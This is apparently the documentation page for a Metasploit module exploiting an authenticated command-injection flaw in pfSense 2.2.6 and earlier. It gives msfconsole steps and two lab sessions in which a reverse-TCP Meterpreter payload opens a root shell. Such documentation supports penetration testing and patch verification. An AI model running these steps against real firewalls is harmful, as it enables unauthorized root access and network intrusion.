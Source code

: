 ## Description

  This module exploits a vulnerability in pfSense version 2.2.6 and before which allows an authenticated user to execute arbitrary operating system commands as root.

## Vulnerable Application

  This module has been tested successfully on version 2.2.6-RELEASE, 2.2.5-RELEASE, and 2.1.3-RELEASE

  Installers:

  * [pfSense 2.2.6-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.6-RELEASE-amd64.iso.gz)
  * [pfSense 2.2.5-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.5-RELEASE-amd64.iso.gz)
  * [pfSense 2.1.3-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.1.3-RELEASE-amd64.iso.gz)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_graph_injection_exec`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [username]`
  5. Do: `set PASSWORD [password]`
  6. Do: `set LHOST [IP]`
  7. Do: `exploit`

## Scenarios

### pfSense Community Edition 2.2.6-RELEASE

```
msf exploit(unix/http/pfsense_graph_injection_exec) > options 

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     192.168.75.132   yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.75.128   yes       The listen address
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unix/http/pfsense_graph_injection_exec) > exploit

[*] Started reverse TCP handler on 192.168.75.128:80 
[*] Detected pfSense 2.2.6-RELEASE, uploading intial payload
[*] Triggering the payload, root shell incoming...
[*] Sending stage (37543 bytes) to 192.168.75.132
[*] Meterpreter session 1 opened (192.168.75.128:80 -> 192.168.75.132:34381) at 2018-01-01 02:07:03 -0600

meterpreter > getuid
Server username: root (0)
meterpreter > 
```

### pfSense Community Edition 2.1.3-RELEASE

```
msf exploit(unix/http/pfsense_graph_injection_exec) > options 

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     192.168.75.131   yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.75.128   yes       The listen address
   LPORT  80               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unix/http/pfsense_graph_injection_exec) > exploit

[*] Started reverse TCP handler on 192.168.75.128:80 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Triggering the payload, root shell incoming...
[*] Sending stage (37543 bytes) to 192.168.75.131
[*] Meterpreter session 1 opened (192.168.75.128:80 -> 192.168.75.131:45257) at 2018-01-01 01:03:05 -0600

meterpreter > getuid
Server username: root (0)
meterpreter > 
```
